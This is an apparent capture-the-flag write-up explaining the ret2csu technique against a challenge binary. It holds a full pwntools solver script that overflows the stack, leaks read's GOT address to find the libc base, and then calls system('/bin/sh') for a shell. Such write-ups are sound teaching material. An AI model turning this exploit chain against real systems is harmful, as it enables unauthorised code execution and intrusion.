 [[Pwn]]

## Ret2csu Binary Exploitation
- I'm using this technique because I thought we need to control the 3rd parameter for the total bytes to write, so naturally I need to control the `rdx` register, but the truth is we only need to control the 2nd parameter `rsi` register. But, this is still a win for me because I learned how to use ret2csu technique.
- We only have `pop rsi` gadget but not for `pop rdx` gadget, so I use ret2csu to control the `rdx` gadget.
- We need 2 csu gadget (the pop part and the mov part)
	- `r12` will become `edi`, `r13` → `rsi`, `r14` →`rdx`, `r15` will be called. We need to make sure `rbx` = 0, `rbp` = 1 so that `r15` will be called correctly, and we can pass the `add rbx, 1; cmp rbp, rbx` . By doing this, we'll pass the mov part loop immediately.
	- We need to pass 56 bytes junk to pass the pop part because after calling the second csu gadget we are going to execute the pop part again, but in this state we have successfully called our desired function, and we need to maintain the stack. There's 7 pop, so 56 bytes is enough to reach the `ret` instruction.
- The next stage is to use ret2libc to call `system(/bin/sh)` because we can calculate LIBC base address from the leaked address.


## Solver
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
	if args.GDB: # Set GDBscript below
		return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
	elif args.REMOTE: # ('server', 'port')
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else: # Run locally
		return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
b *0x40124c
b *0x40124a
b *0x4011e2
continue
'''.format(**locals())

# Binary filename
exe = './all_patched_up_patched'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
# EXPLOIT GOES HERE
# ===========================================================

def ret2csu(rbx, rbp, r12, r13, r14, r15, ret):
	payload = flat([
		b'A' * offset,
		csu1, rbx, rbp, r12, r13, r14, r15,
		csu2,
		b'0' * 56, # JUNK to reach the return address
		ret
	])
	return payload

# Lib-C library, can use pwninit/patchelf to patch binary
libc = ELF("./libc-2.31.so")
offset = 520

# Start program
io = start()

csu1 = 0x40124a # pop r12, r13, r14, r15, mov rdi, 1
csu2 = 0x401230 # rdx, rsi, edi, call [r15 + rbx*8]

# Build the payload
payload1 = ret2csu(rbx=0, rbp=1, r12=1, r13=elf.got.read, r14=8, r15=elf.got.write, ret=elf.sym['main'])

# Send the payload
io.sendlineafter(b'>', payload1)
leak = io.recvuntil(b'>')
read_leak = unpack(leak[1:-1].ljust(8, b'\x00'))
info(hex(read_leak))
libc.address = read_leak - libc.symbols['read']
info("LIBC Base: " + hex(libc.address))

# Nothing works :(
# oneshot1 = 0xe3afe # r12, r15 == NULL
# oneshot2 = 0xe3b01 # r15, rdx == NULL
# oneshot3 = 0xe3b04 # rdx, rsi == NULL
# payload2 = ret2csu(rbx=0, rbp=1, r12=0, r13=0, r14=0, r15=libc.address+oneshot3, ret=ret)

pop_rdi = libc.address + 0x23b6a
payload2 = flat({offset: [
	pop_rdi+1,
	pop_rdi,
	next(libc.search(b"/bin/sh\x00")),
	libc.sym['system']
]})

io.sendline(payload2)
io.interactive()
```
